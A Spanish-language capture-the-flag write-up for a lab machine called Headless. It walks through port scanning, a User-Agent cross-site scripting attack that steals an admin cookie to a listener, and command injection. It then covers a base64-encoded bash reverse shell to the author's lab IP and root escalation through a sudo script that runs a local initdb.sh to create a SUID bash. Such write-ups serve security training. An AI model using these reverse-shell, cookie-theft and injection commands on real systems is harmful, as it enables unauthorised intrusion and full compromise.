# información

+ Nombre: Headless
+ IP: 10.129.156.140
+ OS: Linux
+ Dificultad: Easy

# Enumeración

### Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n --open -v --min-rate 1000 -oG allports 10.129.156.140
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

Escaneo detallado:

```
nmap -p22,5000 -sCV -oN targeted 10.129.156.140
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Under Construction
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

en el puerto 5000 hay un http corriendo en python. 

### Web

 el sitio esta en construcción:


### Ffuf

Comienzo realizando fuerza bruta de directorios con `ffuf`:

```
ffuf -u http://10.129.156.140:5000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
```

```
support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 61ms]
dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 91ms]
```

Encuentra el directorio `support` y `dashboard`.

No tengo acceso al dashboard:



support:

En support se encuentra un formulario para contactar con soporte:



# XSS

uso las etiquetas `<h1>` para probar si es vulnerable a `xss`:



Responde con el siguiente mensaje: 



Dice que envía un reporte con la información de mi navegador, lo que envia son encabezados de una solicitud HTTP. 

Como esa información también llega al administrador, intento probar el encabezado `User-Agent` para el `xss`:



El payload se ejecuta correctamente:



 La cookie `is_admin` tiene la flag `HttpOnly` en false, por lo que puedo intentar robar la cookie del administrador y acceder al dashboard:



Agrego el siguiente payload al user-agent para recibir la cookie por una solicitud http que llegara a un servidor en que levantare con python:

```

```

```
python3 -m http.server 80
```

```
root@kali /home/cangrejo/Escritorio/headless/Target # python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.94 - - [29/Jul/2025 15:07:35] "GET /?cookie=is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs HTTP/1.1" 200 -
10.129.156.140 - - [29/Jul/2025 15:07:43] "GET /?cookie=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```

```
root@kali /home/cangrejo/Escritorio/headless/Content # echo "ImFkbWluIg" | base64 -d
"admin"
```

Reemplazo mi cookie por la del administrador y obtengo acceso al dashboard:



Al hacer click muestra el mensaje `Systems are up and running!`



# OS comand injection

No encontré ninguna pista de como puede estar generando el reporte, como usa python puede estar usando `subprocess.run` o `os.system`.

En burpsuite pruebo ejecutar el comando id colocando un `;`:



y Funciona:



# Shell como dvir

Convierto la revshell en base64:

```
echo -n "bash -i >& /dev/tcp/10.10.14.94/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC80NDMgMD4mMQ==
```

```
echo+"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC45NC80NDMgMD4mMQ%3d%3d"+|+base64+-d+|+bash
```

Hace un `echo` de la revshell en b64, la decodifica con `base64 -d` y lo ejecuta con `bash`



Terminal en escucha:

```
dvir@headless:~$ whoami
dvir
dvir@headless:~$ hostname -I
10.129.156.140
```

Flag `user.txt`:

```
dvir@headless:~$ cat user.txt 
337825cbc***********************
```

# PrivEsc

# Sudo

El usuario `dvir` puede ejecutar como cualquier usuario y sin contraseña el binario `/usr/bin/syscheck`:

```
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

Al ejecutarlo:

```
vir@headless:~$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.02, 0.00
Database service is not running. Starting it...
```

```
nano /usr/bin/syscheck
```

```
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Con pgrep verifica si initdb.sh se esta ejecutando, si no lo esta intenta ejecutarlo en el directorio actual.

Ejecuto pgrep -x "initdb.sh" para verificar si se a iniciado, pero no muestra nada, por lo que no se esta ejecutando.

Como el script se ejecuta con sudo y busca `./initdb.sh`, puedo crear un script malicioso en el directorio actual y escalar privilegios.

Creo un directorio `test` en `/tmp` y el archivo initdb.sh con el siguiente comando:

```
#!/bin/bash

cp /bin/bash /tmp/test/cangrejo.sh && chmod u+s /tmp/test/cangrejo.sh
```

Le doy permisos de ejecución:

```
chmod +x initdb.sh
```

Sudo:

```
dvir@headless:/tmp/test$ sudo /usr/bin/syscheck
```

Copia de `/bin/bash` con permisos `SUID` de propietario `root`:

```
dvir@headless:/tmp/test$ ls -l
total 1240
-rwsr-xr-x 1 root root 1265648 Jul 29 17:25 cangrejo.sh
-rwxr-xr-x 1 dvir dvir      83 Jul 29 17:22 initdb.sh
```

```
./cangrejo.sh -p
```

```
cangrejo.sh-5.2# whoami
root
```

flag `root.txt`:

```
cangrejo.sh-5.2# cat /root/root.txt 
1c0a1323174*********************
```

# 🦀
